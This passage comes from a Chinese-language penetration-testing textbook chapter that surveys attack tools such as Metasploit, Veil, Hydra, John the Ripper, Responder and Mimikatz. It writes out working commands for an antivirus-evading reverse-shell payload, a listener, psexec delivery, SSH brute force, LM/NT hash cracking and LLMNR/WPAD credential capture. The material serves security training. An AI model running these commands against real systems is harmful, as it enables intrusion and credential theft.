2003 年，H.D. Moore 创建了著名的 Metasploit 项目，最初是用 Perl 编写的。到 2007 年，该框架完全改用 Ruby 重新编码；到 2009 年 10 月，他将其出售给了 Nexpose 的创建者 Rapid7。多年后，由于 H.D. Moore 的出售规定，该框架仍然是一个免费的产品。Rapid7 从该框架中创建了一个专业产品，名为 Metasploit Pro。

专业版解决方案具有一些框架没有的功能，例如与 Nexpose 的集成、本地**入侵防御系统**（**IPS**）绕过有效载荷、Web**图形用户界面**（**GUI**）和多用户功能。这些额外功能的价格相当昂贵，但根据您的市场，一些客户要求所有工具都需要付费，因此请记住专业版。如果您不需要为 Metasploit 付费，也不需要额外的功能，那么框架就足够了。

请记住，Metasploit Pro 中的 IPS 绕过工具内置了许多不同的规避方法。其中一个特点是利用代码的结构每次略有不同。因此，如果 IPS 绕过一次失败，可能在同一台主机上再次运行时成功。这并不意味着如果您运行了 10 次，前九次失败了，第十次就一定会成功。因此，请注意并学习与`psexec`和系统利用相关的错误消息。

如果需要的话，可以从 Metasploit 运行整个评估；虽然不建议这样做，但工具确实有这个能力。Metasploit 是模块化的；事实上，Metasploit 中的组件被称为模块。模块分为以下几类：

+   辅助模块

+   利用模块

+   后置模块

+   有效载荷模块

+   NOP 模块

+   编码器模块

辅助模块包括扫描器、暴力破解器、漏洞评估工具和服务器模拟器。利用模块就是可以运行以利用接口服务或其他解决方案的工具。后置模块旨在提升权限、提取数据或与系统上的当前用户交互。有效载荷提供了一种封装的交付工具，一旦获得对系统的访问权限就可以使用。当配置利用模块时，通常需要配置有效载荷模块，以便返回一个 shell。

**无操作**（**NOP**）模块生成对特定硬件架构无效的操作。在创建或修改利用时，这些模块非常有用。Metasploit 中的最后一种模块类型是编码器模块。对编码器的用途存在着巨大的误解。事实上，它们用于通过改变有效载荷的结构来使有效载荷的执行更加可靠，以去除某些类型的字符。这会重新格式化原始有效载荷的操作码，并使有效载荷变得更大，有时甚至更大。

偶尔，负载结构的变化意味着它将绕过严格依赖特定签名的 IPS。这导致许多评估者认为编码是为了绕过防病毒软件；这只是编码的副产品，而不是意图。今天，编码很少绕过企业级 IPS 解决方案。像 Veil 这样的其他产品为这个困境提供了更合适的解决方案。由于大多数利用可以引用外部负载，最好寻求像 Veil 这样的外部解决方案，即使你使用的是 Metasploit 的专业版。在某些情况下，Metasploit Pro 的 IPS 绕过能力将无法使用；在这种情况下，可能需要其他工具。Metasploit 将在本书的其他章节中详细介绍。

## Veil

这个防病毒软件逃避套件有多种方法来生成负载。这些负载类型利用了有经验的评估者和恶意行为者多年来手动使用的方法。这包括使用**高级加密标准**（**AES**）加密负载，对它们进行编码，并随机化变量名称。然后可以将这些细节包装在 PowerShell 或 Python 脚本中，以使生活更加轻松。

Veil 可以通过**命令行界面**（**CLI**）或类似于 Metasploit 的控制台启动。例如，以下命令显示了创建一个 PyInjector 利用的 CLI 的用法，它拨打回监听主机的 80 端口；如果你想测试这个，确保你用你的实际 IP 替换"yourIP"。

```py
./Veil.py -l python -p AESVirtualAlloc -o \
python_payload --msfpayload \
windows/Meterpreter/reverse_tcp --msfoptions \
LHOST=yourIP LPORT=80

```

现在，继续启动你的 Metasploit 控制台，并使用以下命令启动监听器。这将启动控制台；确保等待它启动。此外，它在你的主机上设置了一个监听器，所以确保你用你的实际 IP 地址替换"yourIP"。监听器将在后台运行，等待返回的会话。

```py
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 80
set lhost yourIP
exploit -j

```

将负载移动到目标 Windows 系统并运行负载。只要没有配置问题，监听主机的端口 80 上没有其他服务运行，并且没有阻止被利用主机和监听器之间连接到端口 80 的任何东西，你应该会在你的 Kali 主机上看到一个会话生成。

那么，如果你有这些自定义利用，你如何将它们与真正的 Metasploit 利用结合使用呢？简单，只需调整变量指向它们。以下是在 Metasploit 中使用`psexec`模块的示例。确保将 targetIP 更改为目标 Windows 系统的 IP。设置系统上的本地管理员的用户名和本地管理员的密码。最后，将自定义`EXE`路径设置为你的`python_paload.exe`，你应该会看到在你的监听器上生成一个 shell。

```py
use exploit/windows/smb/psexec
set rhost targetIP
set SMBUser username
set password password
set EXE::Custom /path/to/your/python_payload.exe
exploit -j

```

## Burp Suite

Burp Suite 是透明代理或用于直接交互和操纵发送到浏览器和从浏览器发送的网络流的工具时的标准。这个工具有一个专业版，增加了一个不错的网络漏洞扫描器。在使用它时应该小心，因为它可能导致多次提交论坛、电子邮件和交互。

其 Spider 工具也是如此，它与范围内的 Web 应用程序交互，并将它们映射到类似于 Google 和 Bing 的 Web 爬虫。确保在使用这些工具时，最初禁用自动提交和登录，直到你更好地了解这些应用程序。更多关于 Burp 和类似的 Web 工具将在第六章中介绍，*使用 Python 评估 Web 应用程序*。其他类似的工具包括**Zed Attack Proxy**（**ZAP**），它现在还包含了名为 DirBuster 的未链接文件夹和文件研究工具。

## Hydra

Hydra 是一种服务或接口字典攻击工具，可以识别可能提供访问权限的有效凭据。Hydra 是多线程的，这意味着它可以同时评估多个猜测的服务，大大加快了攻击和产生的噪音。例如，以下命令可用于攻击具有 IP 地址`192.168.1.10`的主机上的**Secure Shell**（**SSH**）服务：

```py
hydra -L logins.txt -P passwords.txt -f -V 192.168.1.10 ssh

```

此命令使用用户名列表和密码列表，在第一次成功时退出，并显示尝试的每个登录组合。如果您只想测试单个用户名和密码，命令将更改为分别使用小写`l`和`p`。相应的命令如下：

```py
hydra -l root -p root -f -V 192.168.1.10 ssh

```

Hydra 还具有针对服务和网站的身份验证接口进行暴力攻击的能力。行业中有许多其他具有类似功能的工具，但大多数评估者使用 Hydra，因为它具有广泛的功能和协议支持。有时 Hydra 不适用，但通常其他工具也无法满足需求。发生这种情况时，我们应该考虑创建一个 Python 脚本。有关凭据攻击的其他详细信息在第四章中有所涵盖，*使用 Python 执行凭据攻击*。

## 约翰·里波特

约翰·里波特（JtR），或者大多数人称之为约翰，是市场上最好的破解软件之一，可以攻击加盐和未加盐的哈希。约翰最大的好处之一是它可以与大多数哈希一起使用。约翰有能力从标准输出和文件格式中识别哈希类型。如果仅提供哈希文件而没有参数，约翰将尝试使用其标准方法破解哈希。首先尝试单一破解模式，然后是单词列表模式，最后是增量模式。

### 提示

**下载示例代码**

您可以从您在[`www.packtpub.com`](http://www.packtpub.com)的帐户中下载示例代码文件，用于您购买的所有 Packt Publishing 图书。如果您在其他地方购买了这本书，您可以访问[`www.packtpub.com/support`](http://www.packtpub.com/support)并注册，文件将直接通过电子邮件发送给您。

### 注意

盐是**伪随机数生成器**（**PRNG**）的输出，已编码以产生相对随机的字符。盐被注入到散列密码的过程中，这意味着每次散列密码时，都会以不同的格式进行。然后将盐与哈希一起存储，以便在认证期间输入凭据的比较算法能够正常工作，需要相同的盐才能产生相同的哈希。这为散列算法增加了额外的熵，提供了额外的安全性，并减轻了大多数彩虹表攻击。

单一破解攻击从哈希文件中获取信息，搅乱明文单词，然后将细节作为密码与一些其他规则集一起使用。单词列表模式就是这样；它使用默认单词列表。最后，增量模式以暴力攻击的方式运行每个字符可能性。如果您真的需要相对增量或暴力攻击模式，最好使用独立的运行 oclHashcat 的破解服务器。

### 注意

密码破解器以以下两种方法之一工作：通过实时对测试密码进行哈希，或者通过取预先计算的哈希并将其与测试哈希进行比较。实时哈希攻击允许评估者破解在原始哈希过程中进行盐化或未盐化的密码。预先计算的哈希攻击速度更快，但除非在预计算期间已知盐，否则无法破解盐化密码。预先计算攻击使用称为彩虹表的链接表。实时密码攻击使用字典或单词列表，这些列表可以在实时中变异或在每个字符位置上以不同的字符集递增。这分别描述了字典攻击和暴力攻击。

以下是在`John`文件夹中针对`hash`文件运行`John`的示例，如果`hashfile`位于那里。

```py
./john hashfile

```

以单用户模式运行`John`来对`hashfile`进行破解，运行以下命令：

```py
./john --single hashfile

```

要使用单词列表运行`John`，请使用以下命令：

```py
./john --wordlist=password_list hashfile

```

您可以同时运行规则来对字符进行排列和替换。

```py
./john --wordlist=password_list --rules hashfile

```

John 的真正优势在于能够在大多数系统上使用，具有强大的排列规则，并且非常用户友好。John 擅长破解大多数标准操作系统密码哈希。它还可以轻松地表示易于与用户名和原始哈希匹配的详细信息。

### 注意

与 John 相比，oclHashcat 没有本地能力以简单格式匹配破解的详细信息与原始数据。这使得提供与唯一哈希相关的密码破解统计数据更加困难。当提供的哈希可能来自多个来源并与同一帐户关联时，这一点尤为真实，因为它们可能会使用不同的盐进行调整。请记住，大多数组织希望在最终报告中获得破解统计数据。

以下命令演示了如何使用 John 显示密码破解结果：

```py
./john --show hashfile

```

John 的一个独特能力是能够从单词列表中生成排列密码，尤其是在与 Cewl 一起使用时，可以帮助构建坚实的破解列表。以下是如何使用 John 创建一个只包含唯一单词的排列密码列表的示例：

```py
./john --wordlist=my_words --rules --stdout | unique my_words_new

```

### 使用 John 破解 Windows 密码

使用 John 破解密码最大的优势是对已经以**本地区域网络**（**LAN**）管理器（MAN）或（LM）格式进行哈希的密码进行破解。LM 哈希是一种弱哈希形式，可以存储长达 14 个字符的密码。密码被分成两个部分，每个部分最多七个字符，并且以大写格式呈现。破解这种类型的哈希时，您必须破解 LM 哈希，以将大写密码的两个部分转换为正确大小写的单个密码。

我们通过破解 LM 哈希，然后将这个破解的密码作为单词列表与启用排列规则的 John 一起运行。这意味着密码将被用作单词来攻击不同格式的**新技术 LM**（**NTLM**）哈希。这允许更强大的 NTLM 哈希更快地被破解。这可以通过名为`LM2NTCRACK`的 Perl 脚本相对自动地完成，但您也可以使用 John 手动完成，并且也会取得很大成功。

您可以从网站（例如[`www.tobtu.com/lmntlm.php`](http://www.tobtu.com/lmntlm.php)）创建一个喜欢的密码的测试哈希。我从 test 密码生成了 pwdump 格式，并将用户名更改为 Administrator。

```py
Administrator:500:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537:::

```

确保您将复制的密码作为一行并将其放入文件中。以下命令是基于`hash`文件命名为`hashfile`并放置在正在运行测试的`John`目录中的想法设计的。

```py
./john --format=lm hashfile

```

一旦密码被破解，你可以直接从输出中复制它，并将其放入一个名为`my_wordlist`的新文件中。你也可以使用已经演示过的命令显示破解哈希的密码。将密码放入文件的简单方法是将`echo`重定向到文件中。

```py
echo TEST > my_wordlist

```

现在，使用这个单词列表对输入数据执行带规则的字典攻击，以排列这个单词。这将允许你找到正确大小写的密码。

```py
./john -rules --format=nt --wordlist=my_wordlist hashfile

```

以下屏幕截图突出了使用先前描述的技术来破解这个哈希：



## oclHashcat

如果你有一个专用的密码破解器，或者一个拥有强大**图形处理单元**（**GPU**）的系统，oclHashcat 是一个不错的选择。该工具可以利用适合的受众可用的强大处理能力快速破解密码哈希。需要牢记的重要一点是，oclHashcat 并不像 John the Ripper 那样简单直观，但它具有强大的暴力破解能力。该工具具有配置通配符的能力，这意味着破解密码的动态可以非常具体。

### 提示

支持无 GPU 破解的 oclHashcat 版本称为 Hashcat。这个破解工具在密码破解方面很快超过了 John，但需要更多的研究和培训才能使用。随着经验的积累，你应该转向使用 Hashcat 或 oclHashcat 进行破解。

## Ophcrack

这个工具最著名的是作为一个启动盘攻击工具，但它也可以作为一个独立的彩虹表破解器使用。Ophcrack 可以直接刻录到可启动的**通用串行总线**（**USB**）驱动器或**光盘**（**CD**）中。当放置在没有**全盘加密**（**FDE**）的 Windows 系统中时，该工具将从操作系统中提取哈希。这是通过引导到一个 LiveOS 或在内存中运行的操作系统来完成的。该工具将尝试用基本的表来破解哈希。大多数情况下，这些表会失败，但哈希本身可以安全地从主机复制到攻击盒中。然后可以使用诸如 John 或 oclHashcat 之类的工具离线破解这些哈希。

## Mimikatz 和 Incognito

这两个工具都可以在 Meterpreter 会话中本地运行，并且每个工具都提供了与 Windows 主机会话交互和利用的手段。Incognito 允许评估者通过模拟用户缓存的凭据来与内存中的令牌交互。Mimikatz 允许评估者直接提取内存中存储的凭据，这意味着用户名和密码直接暴露出来。Mimikatz 还具有针对使用诸如 SysInternals ProcDump 等工具生成的内存转储离线运行的额外功能。

### 提示

Mimikatz 有许多版本，我们在本书中介绍的是 Meterpreter 中的一个例子。

## SMBexec

这个工具是一个由 Ruby 开发的工具套件，它利用 PtH 攻击、Mimikatz 和哈希转储的组合来利用网络。SMBexec 使接管网络变得非常容易，因为它提供了一个控制台界面，只需要一个初始哈希和用户名或凭据对，以及一个网络范围。该工具将自动尝试访问资源，提取内存中的凭据详细信息、缓存详细信息和存储的哈希。SMBexec 的问题在于 Ruby Gem 的不一致可能导致这个工具表现不稳定，并且可能导致其他工具如 Metasploit 甚至整个 Kali 实例崩溃。如果要使用 SMBexec，一定要创建一个专门的虚拟机来运行这个工具。

## Cewl

Cewl 是一个网络爬虫工具，它从网站中解析单词，唯一地识别它们的实例，并将它们输出到文件中。像 Cewl 这样的工具在开发定制的目标密码列表时非常有用。Cewl 具有许多功能，包括针对详细信息的定向搜索以及工具将挖掘的深度的限制。Cewl 基于 Ruby，通常与 SMBexec 和其他 Ruby 产品一样存在问题。

## Responder

Responder 是一个 Python 脚本，可以让评估人员通过**Web 代理自动发现**（**WPAD**）的错误配置将代理请求重定向到攻击者的系统。它还可以接收网络 NTLM 或 NTLMv2 挑战响应哈希。这是通过利用本地启用的**本地链接多播名称请求**（**LLMNR**）和**网络基本输入输出系统**（**NetBIOS**）**名称服务**（**NB-NS**）来完成的。

Responder 的使用非常简单；用户只需在与目标相同的广播域内的网络中。执行以下命令将在用户的 Internet Explorer 会话中创建一个弹出窗口。它将请求他/她的域凭据以允许他/她继续；这种攻击还意味着 NTLMv2 受保护的哈希将从针对 LLMNR 和 NB-NS 请求的攻击中提供。确保将“yourIP”替换为您的实际 IP 地址。

```py
python Responder.py -I yourIP -w -r -f -v -F

```

您还可以强制 Web 会话返回基本身份验证，而不是 NTLM 响应。当 WPAD 看起来已在环境中得到缓解时，这是有用的。这意味着您通常会从针对 LLMNR 和 NB-NS 请求的攻击中收到 NTLMv2 挑战响应哈希。

```py
python Responder.py -I yourIP -r -f -v -b

```

Responder 攻击已成为大多数内部评估的主要内容。WPAD、LLMNR 和 NB-NS 在大多数环境中都是普遍的错误配置，应尽可能进行评估。这些漏洞通常被评估人员和恶意行为者所利用。

## theHarvester 和 Recon-NG

这些工具专门用于识别与**开源情报**（**OSINT**）收集相关的数据。theHarvester 工具基于 Python，可以很好地从搜索引擎和社交媒体中找到详细信息，但 Recon-NG 是新生力量。Recon-NG 是一个基于控制台的框架，也是用 Python 创建的，可以查询多个信息库。这种扩展功能意味着 Recon-NG 现在通常是评估人员首选的工具。Recon-NG 并没有取代 theHarvester，但除非 Recon-NG 没有找到足够的细节，否则通常不会使用 theHarvester。

## pwdump 和 fgdump

与大多数像 Mimikatz 这样的工具相比，这些工具已经很老了，但它们在行业中非常知名，许多密码破解工具都是基于它们的输出格式。事实上，Metasploit 的`hashdump`和`smart_hashdump`以所谓的`pwdump`格式输出系统哈希。这些哈希可以直接从会话中提取并放入文件中，然后通过使用前面提供的本机命令示例运行`John`。

## Netcat

Netcat 或网络连接，也称为`nc`，是最古老的评估和管理工具之一。它旨在通过提供 IP 地址、端口和协议直接与端口和服务进行交互。它还可以传输文件并建立主机之间的会话。由于这个工具的所有功能，它通常被称为数字瑞士军刀，被评估人员和管理员广泛使用。

### 提示

SANS 研究所有一份关于 netcat 的绝妙备忘录，突出了其大部分功能，可以在以下网址找到：

[`pen-testing.sans.org/retrieve/netcat-cheat-sheet.pdf`](http://pen-testing.sans.org/retrieve/netcat-cheat-sheet.pdf)

## Sysinternals 工具

这套工具包最初由 Wininternals Software LP 在得克萨斯州奥斯汀开发。这些工具为管理员和其他专业人士提供了在大型域中处理、维护和控制 Windows 系统的能力。这些工具提供的功能并不是 Windows 的本机功能；微软意识到了这一点，并在 2006 年收购了该公司。这些工具是免费向公众开放的，值得注意的是，许多黑客工具是基于最初在这套工具包中创建的概念构建的。

这套工具包中使用的一些工具示例包括`procdump`用于转储内存和提取凭据。`psexec`工具执行 PtH 或执行远程进程以与远程主机建立会话，并提供与`pskill`或`pslist`一起的进程交互和列表功能。值得注意的是，这些工具是由管理员使用的，通常是白名单。因此，虽然许多黑客工具被 IPS 阻止，但这些工具通常不会。因此，当一切都失败时，始终要像一个恶意管理员一样思考，因为利用这些功能是大多数恶意行为者所做的关键。

# 总结

本章重点讨论和定义了渗透测试以及为什么需要它。基于这个定义，描述了 PTES 框架，它为新的评估者提供了在实际参与中建立知识的手段。为了验证这些知识，我们探讨了一个示例参与如何在主要执行阶段中展开。最后，列出并解释了在各种评估中使用的主要工具，其中许多将在接下来的章节中通过现实示例进一步解释。现在您已经了解了渗透测试及其方法论，我们将开始学习 Python 的强大之处以及启动和运行它有多么容易。
